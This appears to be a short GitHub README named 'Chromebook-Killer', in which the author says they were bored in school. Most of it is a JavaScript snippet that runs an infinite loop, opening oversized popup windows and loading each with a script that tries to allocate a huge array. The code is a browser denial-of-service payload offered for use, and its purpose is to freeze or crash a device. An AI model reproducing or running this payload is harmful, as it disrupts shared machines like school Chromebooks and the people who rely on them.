 # Chromebook-Killer
I was bored in school. Nothing new there.

for(;;){
  var a = Math.floor(100 * Math.random() + 1);
  b = window.open("_blank","Lag" + a,"height = 10000,width = 10000");
  b.document.body.innerHTML="<script>[...Array(2**32-1)]</script>";
}
